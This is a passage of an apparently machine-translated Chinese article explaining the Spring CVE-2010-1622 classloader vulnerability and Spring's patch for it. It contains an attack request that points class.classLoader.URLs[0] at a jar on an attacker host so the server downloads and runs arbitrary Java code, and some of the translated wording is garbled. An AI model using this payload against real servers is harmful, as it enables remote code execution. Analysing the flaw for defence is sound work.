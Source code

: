 以下利用示例说明了该漏洞是如何在外界被操纵的:

1.  攻击者创建 exp.jar 并通过[*http://attacker/exp . jar*](http://attacker/exp.jar)*使其可用。*这个罐子应该包含两种文件:

*   定义一些标签并指定这些标签的 spring-form.tld 被实现为标签文件。
*   包含任意 Java 代码的标记文件。

2.攻击者发送带有精心编制的参数的 HTTP 请求: [http://demo/login？class . class loader . URLs](http://demo/login?class.classLoader.URLs)[0]= jar:[http://attack/exp . jar！/](http://attacker/exp.jar!/) 。

此时，WebApp 类加载器的 repositoryURLs 属性的第零个元素被攻击者的 URL 覆盖。

3.在服务器端，下载 exp.jar，解析 tld 文件中定义的标记，然后执行远程代码。

# CVE 补丁-2010–1622

该漏洞的罪魁祸首是参数绑定。类加载器包含许多可以在运行时从外部设置的成员，因此它产生了许多安全问题。在这种情况下，Spring 发布了一个补丁来拒绝 classLoader。

在 CachedIntrospectionResults 方法中，补丁以绿色矩形突出显示，pd 是一个 java.beans.PropertyDescriptor 实例，它描述了 Java bean 的属性(name/getter/setter/…)。

![](img/a7aed86dc05a54900f2fe9b3c7de504c.png)
